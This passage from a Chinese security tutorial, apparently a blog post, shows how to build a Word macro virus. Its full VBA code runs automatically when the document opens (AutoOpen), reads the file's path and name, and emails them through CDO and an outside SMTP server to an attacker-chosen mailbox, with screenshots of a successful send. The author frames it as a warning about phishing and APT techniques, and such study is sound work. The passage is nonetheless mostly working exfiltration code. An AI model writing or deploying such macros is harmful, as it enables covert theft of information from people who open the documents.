 接下来我们制作一个宏，当对方打开文档时就知道该文档在对方电脑存储的具体路径。常见方法包括：

*   邮件组件，如 CDO 组件
    
*   远程脚本
    

这里采用 CDO 自发邮件实现。通过 Word VB 编写脚本，设置文档打开时运行，利用 CDO 发送电子邮件将文件的路径和名字发送到指定邮箱中。具体步骤如下：

*   1) 利用 AutoOpen 执行并打开文档时运行
    
*   2) 利用 WordObj.ActiveDocument 获取文件信息
    
*   3) 利用 CDO 实现电子邮件实现信息传递
    

注意，千万别小瞧这个功能，如果是一封钓鱼邮件或运行宏病毒自动采集个人电脑信息发送至指定邮件，其危害性非常大，而且该攻击手段广泛存在于许多亚洲 APT 组组中。

定义的宏函数为 AutoOpen，如下图所示：

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRN64YH0rOavsCGafc1t4w4B7gSReORZKqosFxlVdVqEzxMza5ibbQtwUNGKJCF2wOia6Sfdw2YdPQRw/640?wx_fmt=png)

核心代码如下所示：

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRN64YH0rOavsCGafc1t4w4BSmuxPuLB36CDJ7hHykSKbjMsibGqdgHpU99oVeD11UuJ2CSkiaLItZXw/640?wx_fmt=png)

完整代码如下，包括获取文件夹路径、定义邮件地址、添加 CDO 库、设置微软服务器、CDO 邮件参数设置、发送数据

```
Sub AutoOpen()' AutoOpen宏' By: CSDN Eastmount 2020-04-21        ' 获取文件夹路径    Dim WordObj As Object    Dim Doc As Object    Set WordObj = GetObject(, "Word.Application")    Set Doc = WordObj.ActiveDocument    MsgBox (Doc.Path)        ' 定义邮件地址    Const from1 = "152xxxxxxxx@163.com"    Const to1 = "xxxxxxxxxx@qq.com"    Const password = "xxxxxxxxxx"        ' 添加CDO库    Set CDO = CreateObject("CDO.Message")    CDO.from = from1    CDO.to = to1    CDO.Subject = Doc.Name    CDO.Textbody = Doc.Path        ' 微软服务器网址    MsgBox ("发送邮件")    Const proxyUrl = "http://schemas.microsoft.com/cdo/configuration/"    With CDO.Configuration.Fields        .Item(proxyUrl & "sendusing") = 2                     '发送端口        .Item(proxyUrl & "smtpserver") = "smtp.163.com"       'SMTP服务器地址        .Item(proxyUrl & "smtpserverport") = 25               'SMTP服务器端口        .Item(proxyUrl & "smtpauthenticate") = 1              '是否开启用户名密码验证        .Item(proxyUrl & "sendusername") = from1              '发送方邮箱名称        .Item(proxyUrl & "sendpassword") = password           '发送方邮箱密码        .Item(proxyUrl & "smtpusessl") = True                 '是否使用ssl协议        .Item(proxyUrl & "smtpconnectiontimeout") = 60        '时延        .Update    End With        ' 发送数据    CDO.Send    Set CDO = Nothing    MsgBox ("成功!")End Sub
```

当 test04.doc 文件打开时，它会自动运行，其结果如下图所示：

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRN64YH0rOavsCGafc1t4w4BDHqgibWtY1RkNgB4MuzCqb6geVdpC7HqmOWyibPYh8VriciczObj08VvRw/640?wx_fmt=png)

接着对话框提示发送邮件。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRN64YH0rOavsCGafc1t4w4BYzTFH0xI1ibcX6yVRHv9P8HkZick8e7pjiaJemv6Rjm4O2outWdNNIeUA/640?wx_fmt=png)

最终邮件通过宏病毒发送成功。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRN64YH0rOavsCGafc1t4w4BqLmCTngIqYIJJPOeEFx2HRth8zT80IFXWjK6QtoVLqel2ZFRToDLoA/640?wx_fmt=png)

下图可见，成功将 Word 稳定打开的路径地址发送到了目标邮箱，如果宏病毒再获取更详细的信息或文件，是否也能发送到指定邮箱呢？这样的恶意代码仍需要重视。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRN64YH0rOavsCGafc1t4w4BDicj6hAIeTwQ8CMJgUU2Lh5w3gzU7IbvS80ccV1X6UK2cC8ibpXLeibkA/640?wx_fmt=png)
